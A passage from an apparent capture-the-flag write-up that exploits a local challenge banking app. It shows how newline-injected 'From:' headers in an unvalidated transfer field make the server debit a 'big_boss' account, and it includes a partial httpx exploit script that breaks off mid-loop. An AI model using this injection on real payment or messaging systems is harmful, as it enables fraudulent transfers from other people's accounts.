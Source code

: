 ```python
dict([("a", 1), ("b", 2), ("a", 3)])
>> {'a': 3, 'b': 2}
```
It seems the most recent key-value pair is taken, meaning if we somehow snuck an extra `From: big_boss` header line, we could have the money sent from the big boss instead.
To confirm, let's go back to `util.py` and see how the socket request is made again.
```python
def do_transfer(frm, to, amt, otp):  
    """  
    msg = f"Transact\nFrom: {frm}\nTo: {to}\nAmount: {amt}\nCode: {otp}".encode()    """    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
    sock.connect((HOST, PORT))  
    # TODO No username validation, we can sneak in new headers  
    msg = f"Transact\nFrom: {frm}\nTo: {to}\nAmount: {amt}\nCode: {otp}"  
    print(f"Socket data:\n{msg}")  
    msg = msg.encode()  
  
    sock.sendall(msg)  
    recv = sock.recv(1024)  
    if recv.startswith(b"Failed"):  
        print("Transfer failure")  
        print(recv.decode())  
        return  
    return recv.decode()
```
As `frm` is the first parameter, we can inject the extra `From:` header in any argument and have the server use that instead. Checking back to the `/transfer` endpoint, we can confirm no validation is done on our input, and we can freely inject newlines
```python
@app.route('/transfer', methods=('POST',))  
@login_required  
def transfer():  
    to_username = request.form.get("to", None)  
    amount = request.form.get("amount", None)  
    otp = request.form.get("otp", None)  
  
    if not do_transfer(session['username'], to_username, amount, otp):  
        flash("Transfer failed!", "danger")  
    else:  
        flash("Transfer success!", "success")  
    return redirect(url_for('dashboard'))
```
Now, all we need to do is siphon money out of the big boss account into ours. As it seems, all we need to do is transfer $10000 \* 100 times to obtain the target amount of money.
```python
import httpx  
import asyncio  
  
url = "http://127.0.0.1:33339"  
  
async def transfer(client: httpx.AsyncClient, username, otp):  
    res = await client.post(f"{url}/transfer", data={"to": f"{username}\nFrom:big_boss", "amount": "10000", "otp": otp})  
    return "Success" in res.text  
  
async def main():  
    async with httpx.AsyncClient() as client:  
        res = await client.post(f"{url}/login", data={"username": "someuser", "password": "someuser"})  
        print(res.text)  
        queue = []  
        otp = input("Enter OTP: ")  
        for i in range(100):  
            res = transfer(client, "someuser", otp)  
```